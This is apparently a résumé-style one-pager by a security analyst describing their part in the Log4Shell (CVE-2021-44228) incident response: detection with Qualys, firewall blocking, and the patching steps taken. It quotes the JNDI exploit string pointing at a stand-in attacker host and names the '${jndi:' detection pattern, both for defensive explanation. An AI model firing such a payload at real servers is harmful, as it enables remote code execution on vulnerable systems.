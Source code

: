 # Log4j Incident Response – One-Pager  
**Role:** Security Operations Analyst  
**Duration:** Dec 2021 – Jan 2022  
**Tools Used:** Qualys, Palo Alto Panorama, SolarWinds, Slack/Bridge Calls  

---

## 📌 What is Log4j?  
Apache Log4j is a Java-based logging utility used in countless enterprise applications. In December 2021, a critical vulnerability—**CVE-2021-44228 (Log4Shell)**—was discovered that allowed **unauthenticated remote code execution (RCE)** via **JNDI lookups** in log messages.

- **CVSS Score:** 10.0 (Critical)  
- **Affected Versions:** ≤ 2.14.1  
- **Fixed in:** 2.15.0 and later  
- **Exploit Example:** `${jndi:ldap://attacker.com/payload}`

#### How it Works – The Exploit:
- Log4j supported JNDI (Java Naming and Directory Interface) lookups. An attacker could send a string like ${jndi:ldap://attacker.com/a} in user input.
- If this input is logged in a login error message, Log4j would parse the JNDI string. It would connect to the malicious LDAP server and fetch a remote Java class = Remote Code Execution (RCE).  

---

## 🕵️‍♂️ Why It Was Dangerous  
- Widespread usage across Java apps (e.g., Minecraft, VMware, Apple iCloud, AWS)  
- Enabled full remote code execution with minimal effort  
- Led to deep supply chain compromise and APT activation  
- Embedded in shadow dependencies (JARs inside JARs)

---

## 🛡️ My Role During the Incident  
I worked on the **Security Operations Team** at TCS supporting AMD’s infrastructure during the crisis. This involved **real-time detection, monitoring, and remediation** in collaboration with L2/L3 teams and external partners.

---

## 🎯 Key Responsibilities & Contributions

### 🔍 Vulnerability Detection
- Managed **Qualys Cloud Agent** to ensure accurate detection (QIDs: 376157, 376178, 91495)  
- Scanned for vulnerable Log4j instances across Linux/Windows systems  
- Flagged high-risk servers for immediate patching and isolation  

### 🌐 Firewall & Perimeter Defense
- Monitored **Palo Alto Panorama** for outbound LDAP/RMI/DNS exploit traffic  
- Applied dynamic firewall rules to **block JNDI lookup patterns**  
- Detected suspicious communication with external command servers  

### 📊 Incident Coordination & Reporting
- Participated in **24x7 bridge calls and war-room sessions**  
- Documented exposure impact, patch status, and escalation workflows  
- Used **SolarWinds** for system discovery, patch prioritization, and health checks  

---

## 🧰 Remediation Actions by L2/L3
- Upgraded Log4j to version **2.16+ / 2.17+**  
- Disabled JNDI lookups: `log4j2.formatMsgNoLookups=true`  
- Applied **WAF rules** and SIEM detection signatures for `${jndi:` patterns  
- Implemented **compensating controls** and monitored patch completion  

---

## 📘 Outcome & Learning
Supported large-scale incident response for a global zero-day exploit involving multiple threat vectors, including suspected **APT activity**. Gained hands-on experience with **real-time detection, cross-functional security collaboration**, and **tool-based mitigation** under pressure.
"""
